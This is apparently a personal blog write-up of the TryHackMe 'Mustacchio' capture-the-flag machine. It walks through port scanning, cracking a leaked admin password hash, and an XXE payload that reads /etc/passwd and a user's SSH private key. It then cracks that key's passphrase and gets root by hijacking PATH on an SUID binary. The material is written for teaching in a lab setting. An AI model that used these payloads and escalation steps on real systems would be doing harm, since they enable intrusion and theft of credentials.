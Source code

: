 +++
title = 'Mustacchio Walkthrough | Try Hack Me | Ally Petitt'
date = 2022-02-18
draft = false
showtoc=true
+++
![](https://cdn-images-1.medium.com/max/800/1*F19asfqgh7o-jFDVwsTizA.png)

**Introduction**
================

Hey everyone! This is a write-up of how I was able to pwn the Mustacchio machine. I hope you enjoy!

Notes:   
* This was done on a Kali Linux machine so the commands might be slightly different if you are on Windows

**Enumeration**
===============

To begin, I scanned for open ports using [RustScan](https://github.com/RustScan/RustScan). RustScan, for those who have never heard of it, is essentially a much faster version of Nmap. You can use Nmap if you prefer. My results were as follows:

`PORT STATE SERVICE REASON VERSION  
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)  
80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))  
| http-robots.txt: 1 disallowed entry   
|_/  
| http-methods:   
|_ Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Mustacchio | Home  
8765/tcp open http syn-ack nginx 1.10.3 (Ubuntu)  
|_http-server-header: nginx/1.10.3 (Ubuntu)  
|_http-title: Mustacchio | Login  
| http-methods:   
|_ Supported Methods: GET HEAD POST  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

As shown by this scan, there are 3 ports open. I investigated the website on port 80 first. I looked through the source code, checked for cookies, looked for linked javascript files, and tested the contact form for cross-site scripting. I found nothing interesting, so I continued to do directory enumeration using [FFUF](https://github.com/ffuf/ffuf) (you can also use Wfuzz, Gobuster, or DirBuster for this part).

`ffuf -u <http://10.10.93.193/FUZZ> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![](https://cdn-images-1.medium.com/max/800/1*erwnChNmTvF8tXrU6r_S-Q.png)
The custom directory looks interesting. I noticed it earlier when I was looking at the linked JavaScript files. Let’s investigate.

![](https://cdn-images-1.medium.com/max/800/1*V_As8mpAktOxs0GjknBnAw.png)
And we have access to these files! I went inside the JavaScript file and found a file called users.bak. I downloaded the file and ran the strings command on it.

`$ strings users.bak   
SQLite format 3  
tableusersusers  
CREATE TABLE users(username text NOT NULL, password text NOT NULL)  
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`

From this file, we have learned that they are using SQLite 3 to store their users. Now, we have a way to view the admin user in their database. Great! Before we go deeper into this, I’d like to explore the other web server running on port 8765.

![](https://cdn-images-1.medium.com/max/800/1*tmf5emcwConOrADGYV4Veg.png)
How great is this! We found the admin panel where we can log in as admin. Let’s see if we can get the admin credentials using the users.bak file.

Exploitation
============

After a few Google searches, I found out how to open this file. I used the SQLite3 CLI:

`$ sqlite3 users.bak  
SQLite version 3.36.0 2021–06–18 18:36:39  
Enter “.help” for usage hints.  
sqlite> .tables  
users  
sqlite> .dump users  
PRAGMA foreign_keys=OFF;  
BEGIN TRANSACTION;  
CREATE TABLE users(username text NOT NULL, password text NOT NULL);  
INSERT INTO users VALUES(‘admin’,’1868e36a6d2b17d4c2745f1659433a54d4bc5f4b’);  
COMMIT;`

And there is the password hash that we found when we initially used the strings command on users.bak 😂. I tried to use my best buddy John for help, but he failed me today. Instead, I resorted to hashcat to crack the password.

`$ hashcat -m 100 ./hash /usr/share/wordlists/rockyou.txt`

![](https://cdn-images-1.medium.com/max/800/1*n3kLAAUq1LNmS2DrlBHwcA.png)
And we have our password! With the newfound credentials `admin:bulldog19` I logged into the admin console on port 8765. Success! The credentials worked.

![](https://cdn-images-1.medium.com/max/800/1*0UmbX55dZohkB-gKgPoRBw.png)
While looking at the page source, two things immediately stand out to me.

1. I see a comment left by the developer
2. The name of the input box is “xml”

![](https://cdn-images-1.medium.com/max/800/1*0tRlE5e6aAO2JQcOEZREOw.png)
When I try press submit without writing anything in the textarea, I am greeted by the following alert:

![](https://cdn-images-1.medium.com/max/800/1*cD5Mov3ZH_r2YjtzfLoX3w.png)
Interesting. Maybe we can submit our own XML code to perform a reverse shell. One of the [most common XML vulnerabilities](https://gist.github.com/mgeeky/4f726d3b374f0a34267d4f19c9004870) is an XML Eternal Entity (XXE) injection, so let’s test for it in this application! I used the XXE payload from this [blog post](https://cybarrior.com/blog/2019/11/28/xml-external-entity-xxe-injection-payload-list/):

`<?xml version=”1.0" encoding=”UTF-8"?>  
<!DOCTYPE comment [<!ENTITY xee SYSTEM “/etc/passwd”> ]>  
<comment>  
 <com>&xee;</com>  
</comment>`

When I type this in the text area and press “Submit”, I see the following on my screen:

![](https://cdn-images-1.medium.com/max/800/1*XQySYPmpIgWDqkmlXyx_Ag.png)
Success! This application is vulnerable to XXE injection. Let’s use this vulnerability to get our first flag.

User.txt
========

Here, we can see Barry as a user on this machine. Recalling that we found a comment regarding his SSH key in the source code, maybe we can find his private key to gain SSH access to this server. To do this, I looked inside his .ssh folder inside his home directory. I simply changed `/etc/passwd` to `/home/barry/.ssh/id_rsa` as "id\_rsa" is a common name for the file containing a private ssh key.

![](https://cdn-images-1.medium.com/max/800/1*yEC5KVva_GVYWI45nKBEfg.png)
Success! We can now see Barry’s private SSH key. If we were to directly copy-paste this from the webpage we would have formatting issues. Instead, I inspected the page and copied the key from the HTML. I then pasted it into a file called “id\_rsa\_barry”, **making sure that there is no white space**. I changed the permissions on the file using this command:

`chmod 400 id_rsa_barry`

I went to ssh into the machine and this was my result:

![](https://cdn-images-1.medium.com/max/800/1*mGKSvT93JzuxBhgxAvxBIg.png)
It seems that we need a passphrase. The passphrase should be within the private SSH key file, which we can crack using John.

`$ python3 /usr/share/john/ssh2john.py id_rsa_barry > id_rsa_barry.hash  
 $ john — wordlist=/usr/share/wordlists/rockyou.txt id_rsa_barry.hash`

![](https://cdn-images-1.medium.com/max/800/1*DFe8cHaY9rABFQoOAkr-iA.png)
Great! Now we have the passphrase to use. I used the same ssh command from before to log in and entered the passphrase that I just found. And we are in.

![](https://cdn-images-1.medium.com/max/800/1*RBrrcp7EVvjb9szz2tLUGg.png)
Privilege Escalation
====================

First, I took a look at Barry’s id.

`barry@mustacchio:~$ id  
uid=1003(barry) gid=1003(barry) groups=1003(barry)`

It appears that he is not in any groups that we could use for privilege escalation. I also used `sudo -l` to see if there are any commands that we can run as root without a password. This turned out not to be the case. Then, I checked for any SUID binaries. These are files that can run with root privileges.


```
barry@mustacchio:~$ find / -perm -4000 2>/dev/null  
/usr/lib/x86\_64-linux-gnu/lxc/lxc-user-nic  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/snapd/snap-confine  
/usr/lib/openssh/ssh-keysign  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/bin/passwd  
/usr/bin/pkexec  
/usr/bin/chfn  
/usr/bin/newgrp  
/usr/bin/at  
/usr/bin/chsh  
/usr/bin/newgidmap  
/usr/bin/sudo  
/usr/bin/newuidmap  
/usr/bin/gpasswd  
**/home/joe/live\_log**  
/bin/ping  
/bin/ping6  
/bin/umount  
/bin/mount  
/bin/fusermount  
/bin/su
```
Interesting, “live\_log” is in Joe’s home directory. Maybe we have permission to execute it.

`barry@mustacchio:~$ cd /home/joe && ls -la  
total 28  
drwxr-xr-x 2 joe joe 4096 Jun 12 2021 .  
drwxr-xr-x 4 root root 4096 Jun 12 2021 ..  
-rwsr-xr-x 1 root root 16832 Jun 12 2021 live_log`

And we do! When I run it, it appears to launch an application.

![](https://cdn-images-1.medium.com/max/800/1*4UbZ77EZp3aHOXEHYvNonQ.png)
This isn’t very useful to us because we can’t interact with the application! Instead, I looked further into the file using the `strings` command. Additionally, I used `awk` so that we would only see the long strings that are more likely to be helpful. If nothing useful came out, then I would lower the minimum string length from 15 characters to 10 and so on because the output can often be very long.

`$ strings live_log | awk ‘length($0) > 15’`

![](https://cdn-images-1.medium.com/max/800/1*8nyN1k4x9nZpM1sGpDmSsg.png)
Interesting. There is a path to “access.log” and the full path for the `tail` command isn’t used. Maybe we can change the PATH variable so that we can use our own “tail” command that gives us root.

`$ export PATH=/tmp  
$ cd /tmp  
$ echo “/bin/bash -p” > tail  
$ /bin/chmod +x tail  
$ /home/joe/live_log  
# /usr/bin/whoami  
root  
# /bin/cat /root/root.txt  
[REDACTED]`

And it works! Since “live\_log” was an SUID binary, we were able to run it as root. We were able to redirect the path from `/usr/bin/tail` to `/tmp/tail` which allowed us to run `/bin/bash` as root, giving us a root shell.

That’s all! I hope you enjoyed my explanations. Please send me any constructive feedback [via LinkedIn](https://www.linkedin.com/in/ally-petitt-5a02aa208/). Thank you and take care!
